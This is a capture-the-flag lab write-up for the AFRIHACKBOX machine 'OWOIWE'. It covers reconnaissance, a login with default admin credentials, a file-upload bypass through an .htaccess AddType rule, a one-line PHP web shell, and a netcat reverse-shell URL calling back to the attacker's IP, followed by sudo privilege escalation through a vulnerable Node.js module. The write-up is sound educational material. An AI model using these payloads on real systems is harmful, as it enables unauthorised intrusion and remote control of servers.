# OWOIWE is the name of this machine form AFRIHACKBOX

## Nmap scan

```
# Nmap 7.95 scan initiated Tue Apr  1 11:17:09 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN scan.txt -Pn 10.0.1.17
Nmap scan report for 10.0.1.17
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 93:22:32:4d:88:4b:34:10:d2:ec:b5:5e:11:27:11:95 (ECDSA)
|_  256 c9:f5:b7:d7:02:4a:cd:10:4c:3b:b1:a6:ec:69:4c:40 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
| http-robots.txt: 6 disallowed entries 
| /data /static/ckeditor /static/enums /system /theme 
|_/user
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Example EchoCiTy-F
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr  1 11:23:51 2025 -- 1 IP address (1 host up) scanned in 401.51 seconds

```
From the Nmap scan, we can see we have two port ans services running, ie 80 and 22

lets visit the service 80 first since we dont have creds to start with 22

visiting the service on port 80, we get 



clicking on the user login and the register didnt work for me so i just type /admin in the url and i had an admin login page



the credentials where default so we logged in successfully to the dashboard



in the admin panel i looking around for initial foothold vectors, and came accross a section where files can be uploaded, interesting



Firstly i uploaded a text file, and was able to access it, but when i wanted to rename the file to a .php the system rejected it



ERROR



i didnt hesitate to upload a .htaccess file with the content ```AddType application/x-http-php .lynx``` so with this the system will accept files with the extension .lynx at that location 



this succeeded so now i can upload my shell.lynx and get a web shell my shell.lynx contained ```<?=`$_GET[x]`?>```



now i had to get a revshell ```http://10.0.1.17/static/shell.lynx?x=nc+-e+/bin/bash+YOUR IP+PORT+%26``` **Dont Forget to set a listener**



## For PrivEsc

For Privesc, sudo -l gives us



meaning we can run ```/usr/local/bin/certer``` with sudo privs, nice , but lets see what certer contains



this looks like a nodeJs application or it is a nodejs app, going through the code, the only thing i found that we could exploit was the ```devcert-sanscache```

lets **google**
[found something on snyk](https://security.snyk.io/vuln/SNYK-JS-DEVCERTSANSCACHE-540926)



looks like the module is vulnerable to code injection, Lets try it and see



even though the code kinda errors out, we still get the code exec, and from here we can go through various wasy of becoming root

AND we are ROOOOOOOOOOOOOT



# THANK YOU.... 